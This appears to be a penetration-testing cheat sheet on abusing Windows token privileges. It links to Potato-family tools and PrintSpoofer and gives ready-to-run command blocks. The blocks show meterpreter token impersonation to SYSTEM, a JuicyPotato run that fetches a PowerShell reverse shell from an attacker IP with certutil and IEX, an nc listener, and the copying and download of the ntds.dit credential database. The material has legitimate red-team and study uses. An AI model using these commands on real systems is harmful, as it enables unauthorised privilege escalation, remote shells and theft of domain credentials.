 # Privileges Abuse

* [https://github.com/gtworek/Priv2Admin](https://github.com/gtworek/Priv2Admin)




## SeImpersonatePrivilege

* [https://github.com/CCob/SweetPotato](https://github.com/CCob/SweetPotato)



### Potatoes

* [https://jlajara.gitlab.io/others/2020/11/22/Potatoes_Windows_Privesc.html](https://jlajara.gitlab.io/others/2020/11/22/Potatoes_Windows_Privesc.html)


#### foxglovesec/RottenPotato

* [https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/](https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/)
* [https://foxglovesecurity.com/2017/08/25/abusing-token-privileges-for-windows-local-privilege-escalation/](https://foxglovesecurity.com/2017/08/25/abusing-token-privileges-for-windows-local-privilege-escalation/)
* [https://github.com/foxglovesec/RottenPotato](https://github.com/foxglovesec/RottenPotato)

```
$ curl -L https://github.com/foxglovesec/RottenPotato/raw/master/rottenpotato.exe > r.exe
meterpreter > upload r.exe
meterpreter > load incognito
meterpreter > execute -cH -f r.exe
meterpreter > list_tokens -u
meterpreter > impersonate_token "NT AUTHORITY\\SYSTEM"
```


#### decoder/the-lonely-potato

* [https://decoder.cloud/2017/12/23/the-lonely-potato/](https://decoder.cloud/2017/12/23/the-lonely-potato/)


#### ohpe/juicy-potato

* [https://github.com/ohpe/juicy-potato/releases](https://github.com/ohpe/juicy-potato/releases)
* [https://github.com/ivanitlearning/Juicy-Potato-x86/releases](https://github.com/ivanitlearning/Juicy-Potato-x86/releases)
* [https://ohpe.it/juicy-potato/CLSID](https://ohpe.it/juicy-potato/CLSID)

```
$ curl -L https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe > j.exe
$ curl -L https://github.com/samratashok/nishang/raw/master/Shells/Invoke-PowerShellTcpOneLine.ps1 > rev.ps1
...Change LHOST to 10.10.13.37 and LPORT to 443...
Cmd > certutil -urlcache -split -f http://10.10.13.37/j.exe C:\Windows\System32\spool\drivers\color\j.exe
Cmd > echo cmd /c powershell -exec bypass -nop -c "IEX(New-Object Net.WebClient).DownloadString('http://10.10.13.37/rev.ps1')" > rev.bat
$ sudo rlwrap nc -lvnp 443
Cmd > .\j.exe -l 1337 -p C:\Windows\System32\spool\drivers\color\rev.bat -t * -c {8BC3F05E-D86B-11D0-A075-00C04FB68820}
```



### PrintSpoofer

* [https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/)
* [https://github.com/itm4n/PrintSpoofer](https://github.com/itm4n/PrintSpoofer)
* [https://github.com/S3cur3Th1sSh1t/PowerSharpPack/blob/master/PowerSharpBinaries/Invoke-BadPotato.ps1](https://github.com/S3cur3Th1sSh1t/PowerSharpPack/blob/master/PowerSharpBinaries/Invoke-BadPotato.ps1)

```
PS > . .\Invoke-BadPotato.ps1; Invoke-BadPotato -C "C:\Users\snovvcrash\music\pwn.exe"
```



### Restore Privilege

* [https://itm4n.github.io/localservice-privileges/](https://itm4n.github.io/localservice-privileges/)




## SeBackupPrivilege



### SeBackupPrivilege

* [https://github.com/giuliano108/SeBackupPrivilege](https://github.com/giuliano108/SeBackupPrivilege)

```
wget https://github.com/giuliano108/SeBackupPrivilege/raw/master/SeBackupPrivilegeCmdLets/bin/Debug/SeBackupPrivilegeCmdLets.dll
wget https://github.com/giuliano108/SeBackupPrivilege/raw/master/SeBackupPrivilegeCmdLets/bin/Debug/SeBackupPrivilegeUtils.dll

upload SeBackupPrivilegeCmdLets.dll
upload SeBackupPrivilegeUtils.dll
Import-Module .\SeBackupPrivilegeCmdLets.dll
Import-Module .\SeBackupPrivilegeUtils.dll
Copy-FileSeBackupPrivilege W:\Windows\NTDS\ntds.dit C:\Users\snovvcrash\Documents\ntds.dit -Overwrite
download ntds.dit
```



### robocopy

```
PS > cmd /c where robocopy
PS > robocopy /B W:\Windows\NTDS\ntds.dit C:\Users\snovvcrash\Documents\ntds.dit
```

